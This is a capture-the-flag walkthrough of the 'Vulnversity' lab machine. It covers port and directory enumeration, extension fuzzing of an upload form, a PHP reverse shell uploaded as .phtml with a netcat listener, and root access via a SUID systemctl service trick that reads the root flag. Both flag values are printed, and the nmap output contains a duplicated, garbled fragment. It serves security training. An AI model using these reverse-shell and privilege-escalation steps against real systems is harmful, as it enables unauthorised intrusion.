

# Vulnversity

IP Address: 10.10.154.152

## Flags

1. 8bd7992fbe8a6ad22a63361004cfcedb
2. a58ff8579f0a9270368d33a9966c7fd5

## Enumeration/Scanning

### Nmap:


	 sudo nmap -A -sC -p1-3500 -oN vulnversity.nmap 10.10.73.128
	 Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-17 20:35 PDT
	Nmap scan report for 10.10.73.128
	Host is up (0.17s latency).
	Not shown: 3494 closed tcp ports (reset)
	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 3.0.3
	22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
	|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
	|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
	3128/tcp open  http-proxy  Squid http proxy 3.5.12
	|_http-server-header: squid/3.5.12
		1 # Nmap 7.92 scan initiated Sat Sep 17 20:35:44 2022 as: nmap -A -sC -p1-3500 -oN vulnversity.nmap 10.10.73.128
		2 Nmap scan report for 10.10.73.128
		3 Host is up (0.17s latency).
		4 Not shown: 3494 closed tcp ports (reset)
		5 PORT     STATE SERVICE     VERSION
		6 21/tcp   open  ftp         vsftpd 3.0.3
		7 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
		8 | ssh-hostkey:
		9 |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
	|_http-title: ERROR: The requested URL could not be retrieved
	3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
	|_http-title: Vuln University
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
	TCP/IP fingerprint:
	OS:SCAN(V=7.92%E=4%D=9/17%OT=21%CT=1%CU=41748%PV=Y%DS=2%DC=T%G=Y%TM=632692A
	OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=102%TI=Z%CI=I%II=I%TS=8)SEQ(
	OS:SP=FE%GCD=1%ISR=102%TI=Z%CI=RD%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3
	OS:=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=68DF%W2=6
	OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW
	OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
	OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
	OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
	OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
	OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

	Network Distance: 2 hops
	Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: vulnuniversity
	|   NetBIOS computer name: VULNUNIVERSITY\x00
	|   Domain name: \x00
	|   FQDN: vulnuniversity
	|_  System time: 2022-09-17T23:38:14-04:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-time: 
	|   date: 2022-09-18T03:38:14
	|_  start_date: N/A
	| smb2-security-mode: 
	|   3.1.1: 
	|_    Message signing enabled but not required
	|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

	TRACEROUTE (using port 111/tcp)
	HOP RTT       ADDRESS
	1   237.02 ms 10.18.0.1
	2   237.01 ms 10.10.73.128

	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 157.37 seconds
		 
	
### HTTP Headers:

#### Port 3333

	curl http://10.10.73.128:3333 -v > curl.txt
	> GET / HTTP/1.1
	> Host: 10.10.73.128:3333
	> User-Agent: curl/7.84.0
	> Accept: */*
	> 
	* Mark bundle as not supporting multiuse
	< HTTP/1.1 200 OK
	< Date: Sun, 18 Sep 2022 03:51:59 GMT
	< Server: Apache/2.4.18 (Ubuntu)
	< Last-Modified: Wed, 31 Jul 2019 22:44:06 GMT
	< ETag: "80f6-58f01dcd2b575"
	< Accept-Ranges: bytes
	< Content-Length: 33014
	< Vary: Accept-Encoding
	< Content-Type: text/html
	< 
	{ [1019 bytes data]
	100 33014  100 33014    0     0  55192      0 --:--:-- --:--:-- --:--:-- 55207
	* Connection #0 to host 10.10.73.128 left intact
	
[curl.md](files/curl.md)


### Web Server Requests:

#### Port 3128



#### Port 3333


### robot.txt:

**N/a**

### sitemap.xml:

**N/a**

## Automated Discovery

### Gobuster/DirBuster:

	gobuster dir -u http://10.10.73.128:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.73.128:3333
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/09/17 21:50:57 Starting gobuster in directory enumeration mode
	===============================================================
	/images               (Status: 301) [Size: 320] [--> http://10.10.73.128:3333/images/]
	/css                  (Status: 301) [Size: 317] [--> http://10.10.73.128:3333/css/]   
	/js                   (Status: 301) [Size: 316] [--> http://10.10.73.128:3333/js/]    
	/internal             (Status: 301) [Size: 322] [--> http://10.10.73.128:3333/internal/]

### Burp Suite:

1. Intercepted file upload to http://10.10.73.128:3333/internal/ and sent it to intruder.
2. Created file [phpext.txt](files/phpext.txt) containing by php extensions.
3. Loaded [phpext.txt](files/phpext.txt) as the payload, then added § to the file extension in the payloads position, Finally, started attack.
4. The server rejected all extensions except .phtml, so our payload will have the .phtml extension.

## Exploitation

### Vulnerability

The web server is vulnerable as it accepts and executes PHP files with the extension phtml. 

### Exploitation

1. To exploit this, we will upload a PHP reverse shell, forcing the host to make a connection to our listener.

2. Git clone the php-reverse-shell repository and edit the php-reverse-shell.php file.
```
git clone https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
mv php-reverse-shell/php-reverse-shell.php ./php-reverse-shell.phtml; rm -rf php-reverse-shell
```
4. Change the `$ip` and `$port` variable to the attacker machine IP address and listener port.

```php
...
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//
...
```

5. Then navigate to http://10.10.73.128:3333/internal/uploads/php-reverse-shell.phtml and we will have a reverse shell.

```sh
$ sudo nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.18.57.77] from (UNKNOWN) [10.10.247.112] 36308
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 00:23:14 up 47 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Privilege Escalation

### Sudo

```sh
$ sudo -l
sudo: no tty present and no askpass program specified
```

#### SUID/GUID 


```sh
$ find / -type f -perm -04000 -ls 2>/dev/null
   402892     36 -rwsr-xr-x   1 root     root        32944 May 16  2017 /usr/bin/newuidmap
   393361     52 -rwsr-xr-x   1 root     root        49584 May 16  2017 /usr/bin/chfn
   402893     36 -rwsr-xr-x   1 root     root        32944 May 16  2017 /usr/bin/newgidmap
   393585    136 -rwsr-xr-x   1 root     root       136808 Jul  4  2017 /usr/bin/sudo
   393363     40 -rwsr-xr-x   1 root     root        40432 May 16  2017 /usr/bin/chsh
   393501     56 -rwsr-xr-x   1 root     root        54256 May 16  2017 /usr/bin/passwd
   406711     24 -rwsr-xr-x   1 root     root        23376 Jan 15  2019 /usr/bin/pkexec
   393490     40 -rwsr-xr-x   1 root     root        39904 May 16  2017 /usr/bin/newgrp
   393424     76 -rwsr-xr-x   1 root     root        75304 May 16  2017 /usr/bin/gpasswd
   405497     52 -rwsr-sr-x   1 daemon   daemon      51464 Jan 14  2016 /usr/bin/at
   406941    100 -rwsr-sr-x   1 root     root        98440 Jan 29  2019 /usr/lib/snapd/snap-confine
   406710     16 -rwsr-xr-x   1 root     root        14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   405145    420 -rwsr-xr-x   1 root     root       428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
   393687     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   666971     76 -rwsr-xr-x   1 root     root        76408 Jul 17  2019 /usr/lib/squid/pinger
   402037     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   402829     40 -rwsr-xr-x   1 root     root          38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   131164     40 -rwsr-xr-x   1 root     root          40128 May 16  2017 /bin/su
   133166    140 -rwsr-xr-x   1 root     root         142032 Jan 28  2017 /bin/ntfs-3g
   131133     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
   131148     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
   131182     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
   131166    648 -rwsr-xr-x   1 root     root         659856 Feb 13  2019 /bin/systemctl
   131147     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
   133163     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
   405750     36 -rwsr-xr-x   1 root     root          35600 Mar  6  2017 /sbin/mount.cifs
```

#### Write Permissions

```sh
$  find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
dev/char
dev/fd
dev/full
dev/fuse
dev/log
dev/mqueue
dev/net
dev/null
dev/ptmx
dev/random
dev/shm
dev/stderr
dev/stdin
dev/stdout
dev/tty
dev/urandom
dev/zero
etc/systemd
lib/systemd
run/acpid.socket
run/dbus
run/lock
run/php
run/samba
run/shm
run/snapd-snap.socket
run/snapd.socket
run/systemd
run/uuidd
sys/fs
sys/kernel
tmp
tmp/.ICE-unix
tmp/.Test-unix
tmp/.X11-unix
tmp/.XIM-unix
tmp/.font-unix
tmp/tmp.O171jvRWoz
tmp/tmp.O171jvRWoz.service
tmp/tmp.bWhYqNtMwV
tmp/tmp.bWhYqNtMwV.service
tmp/tmp.r1ZwthMXgc
tmp/tmp.r1ZwthMXgc.service
tmp/tmp.synfjEYshH
tmp/tmp.synfjEYshH.service
tmp/tmp.vGA3Alee0i
tmp/tmp.vGA3Alee0i.service
tmp/tmp.vNAzk6Llmg
tmp/tmp.vNAzk6Llmg.service
tmp/tmp.zIOLyjd5CX
var/cache
var/crash
var/lib
var/lock
var/spool
var/tmp
var/www
```
#### [GTFOBins](https://gtfobins.github.io/)

We can search manually through [GTFOBins](https://gtfobins.github.io/) or use an automated script like [PEASS-NG](https://github.com/carlospolop/PEASS-ng).

```sh
$ find / -type f -perm -04000 -ls 2>/dev/null | grep "systemctl"
   131166    648 -rwsr-xr-x   1 root     root         659856 Feb 13  2019 /bin/systemctl
```

We see that `systemctl` binary has the SUID bit set. According to GTFOBins, we can abuse this for priviledge escalation. We want to read `/root/root.txt`, so we will execute the `cat` command and output to `tmp` since we have permissions to write there.

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
In `tmp` we can now view `output`:

```sh
$ ls -lsa
total 60
4 drwxrwxrwt  8 root     root     4096 Sep 19 01:25 .
4 drwxr-xr-x 23 root     root     4096 Jul 31  2019 ..
4 drwxrwxrwt  2 root     root     4096 Sep 18 23:35 .ICE-unix
4 drwxrwxrwt  2 root     root     4096 Sep 18 23:35 .Test-unix
4 drwxrwxrwt  2 root     root     4096 Sep 18 23:35 .X11-unix
4 drwxrwxrwt  2 root     root     4096 Sep 18 23:35 .XIM-unix
4 drwxrwxrwt  2 root     root     4096 Sep 18 23:35 .font-unix
4 -rw-r--r--  1 root     root       33 Sep 19 01:25 output
4 drwx------  3 root     root     4096 Sep 19 01:05 systemd-private-d7e4993e369547e792a017a7c97ddec9-systemd-timesyncd.service-rwVx0o
0 -rw-------  1 www-data www-data    0 Sep 19 01:23 tmp.O171jvRWoz
4 -rw-rw-rw-  1 www-data www-data  116 Sep 19 01:24 tmp.O171jvRWoz.service
0 -rw-------  1 www-data www-data    0 Sep 19 00:48 tmp.bWhYqNtMwV
4 -rw-rw-rw-  1 www-data www-data  100 Sep 19 00:48 tmp.bWhYqNtMwV.service
0 -rw-------  1 www-data www-data    0 Sep 19 00:48 tmp.r1ZwthMXgc
4 -rw-rw-rw-  1 www-data www-data  100 Sep 19 00:48 tmp.r1ZwthMXgc.service
0 -rw-------  1 www-data www-data    0 Sep 19 00:50 tmp.synfjEYshH
4 -rw-rw-rw-  1 www-data www-data   90 Sep 19 00:50 tmp.synfjEYshH.service
0 -rw-------  1 www-data www-data    0 Sep 19 00:48 tmp.vGA3Alee0i
4 -rw-rw-rw-  1 www-data www-data  100 Sep 19 00:48 tmp.vGA3Alee0i.service
0 -rw-------  1 www-data www-data    0 Sep 19 00:53 tmp.vNAzk6Llmg
4 -rw-rw-rw-  1 www-data www-data   90 Sep 19 00:54 tmp.vNAzk6Llmg.service
0 -rw-------  1 www-data www-data    0 Sep 19 00:56 tmp.zIOLyjd5CX
$ cat output
a58ff8579f0a9270368d33a9966c7fd5
```
